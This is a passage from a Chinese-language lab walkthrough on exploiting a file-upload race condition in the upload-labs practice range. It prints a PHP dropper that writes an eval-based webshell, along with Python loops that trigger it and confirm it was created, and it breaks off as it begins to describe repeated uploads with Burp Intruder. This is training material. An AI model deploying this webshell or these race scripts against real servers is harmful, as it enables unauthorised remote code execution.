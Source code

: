
##### 条件竞争

程序执行是有时间的，当文件传上去的瞬间，**利用时间差**，

当程序还在判断类型的时候，我们去访问上传文件（有恶意代码），这时候就执行成功了，这就叫做**条件竞争**

当然手动触发是不可能的，因为手动速度太慢了，根本不可能做到，这时候就需要写脚本了

##### create.php

要上传的文件

作用：生成木马文件

```bash
<?php fputs(fopen( 'xxx.php' , 'w' ),'<?php @eval($_POST[ "xxx"])?>');?>
```

##### create.py

python不停访问上传文件

作用：触发php代码执行

```bash
import requests

url = "http://192.168.70.10/upload-labs/upload/create.php"

while True:
		requests.get(url)
```

![image-20241108140459432](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108140459432.png)

##### request.py

python不断请求被生成文，直到请求成功

作用：验证木马文件是否被创建成功

```bash
import requests

url = "http://192.168.70.10/upload-labs/upload/xxx.php"

while True:
	response = requests.get(url)
	if response.status_code == 200:
		 print("ok")
		 break
```

![image-20241108140542496](https://image.201068.xyz/assets/13.中车高仿真场景靶场练习/image-20241108140542496.png)

##### 1.burpsuite不断地上传文件：

###### burp抓包放到intruder模块
